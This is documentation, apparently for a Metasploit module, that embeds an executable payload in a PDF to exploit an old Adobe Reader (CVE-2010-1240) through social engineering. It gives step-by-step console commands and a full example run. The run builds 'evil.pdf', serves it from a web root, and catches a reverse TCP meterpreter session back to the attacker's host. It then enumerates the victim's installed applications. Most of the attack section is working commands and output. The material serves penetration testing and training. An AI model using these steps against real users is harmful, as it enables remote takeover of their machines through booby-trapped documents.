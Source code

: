## Vulnerable Application

This module embeds a Metasploit payload into an existing PDF file. The resulting PDF can be sent to a target as part of a social engineering attack.

Link to vulnerable software (OldVersion)[http://www.oldversion.com/windows/download/acrobat-reader-8-2-0]

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use exploit/windows/fileformat/adobe_pdf_embedded_exe`
   4. Do: `set payload [windows/meterpreter/reverse_tcp]`
   5. Do: `set LHOST [IP]`
   6. Do: `exploit`
   7. Do: `use [exploit/multi/handler]`
   8. Do: `set LHOST [IP]`
   9. Do: `exploit`
   10. Do: `Open PDF on target machine with vulnerable software`

## Options

  ```
  EXENAME
  ```
  The Name of payload exe.

  ```
  FILENAME
  ```
  The output filename.

  ```
  INFILENAME
  ```
  The Input PDF filename.

  ```
  LAUNCH_MESSAGE
  ```
  The message to display in the File: area of the PDF.

## Scenarios

### A run on Adobe Reader 8.2.0 and Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > exploit

    [*] Reading in '/usr/share/metasploit-framework/data/exploits/CVE-2010-1240/template.pdf'...
    [*] Parsing '/usr/share/metasploit-framework/data/exploits/CVE-2010-1240/template.pdf'...
    [*] Using 'windows/meterpreter/reverse_tcp' as payload...
    [+] Parsing Successful. Creating 'evil.pdf' file...
    [+] evil.pdf stored at /root/.msf4/local/evil.pdf
  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > cp /root/.msf4/local/evil.pdf /var/www/html/evil.pdf
    [*] exec: cp /root/.msf4/local/evil.pdf /var/www/html/evil.pdf

  msf exploit(windows/fileformat/adobe_pdf_embedded_exe) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1121) at 2019-12-09 14:17:10 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

      Installed Applications
      ======================

      Name                Version
      ----                -------
      Adobe Reader 8.2.0  8.2.0



    [+] Results stored in: /root/.msf4/loot/20191209141758_default_192.168.1.5_host.application_783490.txt
      ```
